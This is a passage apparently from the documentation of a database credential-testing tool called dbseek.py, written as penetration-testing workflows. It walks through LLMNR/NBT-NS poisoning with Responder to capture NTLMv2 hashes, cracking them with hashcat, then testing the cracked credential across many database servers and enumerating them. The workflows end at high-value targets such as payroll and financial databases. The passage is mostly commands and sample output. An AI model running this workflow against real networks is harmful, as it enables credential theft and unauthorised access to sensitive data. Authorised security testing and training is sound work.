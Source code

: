 **Common Findings**:
- Root/SA accounts with blank passwords
- MongoDB with no auth required
- Redis with no password
- Default postgres/postgres credentials

### Workflow 3: Responder Integration
**Objective**: Test credentials captured via LLMNR/NBT-NS poisoning

```bash
# 1. Run Responder on separate terminal
sudo responder -I eth0 -wrf

# 2. Wait for credential capture
# Responder output: [+] [MSSQL] NTLMv2 Hash captured from 10.0.0.50
#                        User: DOMAIN\dbadmin
#                        Hash: [hash]

# 3. Crack hash (if needed)
hashcat -m 5600 captured.hash wordlist.txt

# 4. Test credential across all database servers
./dbseek.py -u dbadmin -p Cracked_Password123 -v

# 5. Enumerate databases on successful connections
./dbseek.py -u dbadmin -p Cracked_Password123 -e

# 6. Review accessible databases
cat db_details.txt | grep "Databases:"
```

**Impact**:
- Single credential = access to multiple database servers
- Common in environments with shared service accounts
- Credential reuse across platforms (same password for MySQL, MSSQL, PostgreSQL)

### Workflow 4: Database Enumeration
**Objective**: List databases on compromised servers (safe, read-only)

```bash
# 1. Test credentials + enumerate
./dbseek.py -u admin -p Password123 -e

# 2. Review enumerated databases
cat db_details.json | jq -r '.[] | select(.services[].databases) | .ip + ": " + (.services[].databases | join(", "))'

# 3. Example output parsing
# 192.168.1.50: mysql, information_schema, hr_database, payroll, customer_data
# 192.168.1.51: postgres, employee_db, financial_records
# 192.168.1.52: admin, config, local, app_production, user_data

# 4. Target high-value databases
# Connect to interesting databases for further enumeration
mysql -h 192.168.1.50 -u admin -pPassword123 -D payroll
```
